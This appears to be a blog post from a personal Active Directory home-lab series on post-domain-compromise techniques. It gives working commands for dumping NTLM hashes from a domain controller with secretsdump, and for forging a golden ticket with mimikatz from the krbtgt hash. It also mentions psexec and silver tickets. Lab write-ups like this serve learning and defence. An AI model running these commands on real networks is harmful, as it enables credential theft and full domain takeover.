```yaml
---
layout: single
title: "Post-Domain Compromise"
date: 2024-09-28
categories:
  - Active Directory
tags:
  - AD
  - Post-Compromise
permalink: /projects/ad-hacking-home-lab/post-domain-compromise/
order: 4
---
```


- Dump the NTLM.dir file using secretsdump then crack the passwords afterwards.

```bash
#The ip is of the DC cuz we're admins
secretsdump.py RACCOON.local/lkennedy:'Password1@'@192.168.52.138 -just-dc-ntlm
```

## Golden ticket attack:

- This one so far is my favorite attack!
- It consists of taking advantage of the “krbtgt” account and pass the ticket to gain access through the whole Domain Controller users and computers.
- We need to use mimikatze in a DC using a domain admin.
- Open cmd as administrator, run mimikatze then type the commands below:

```bash
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

- That is going to dump a bunch of informations about that user but we’ll only need the sid and the ntlm hash.

```powershell
kerberos::golden /User:Administrator /domain:raccoon.local /sid:S-1-5-21-909744362-4121654894-721523953 /krbtgt:6de941d21500a8b8a8283cc1143b2b69 /id:500 /ptt
```

![AD-PD-01](/assets/images/AD-images/AD-PD-01.jpg)

- Now that the golden ticket is generated for our current session we simply type

```powershell
misc::cmd
```

- to open a new cmd, here’s an example

![AD-PD-02](/assets/images/AD-images/AD-PD-02.jpg)


- Something to note is that to create a ticket we need a valid user in the DC, this came after a recent patch or else it will not let us access the computer.
- we can also use psexec to gain access to the other computers using the golden ticket.
- If the golden ticket is picked up then use the silver ticket.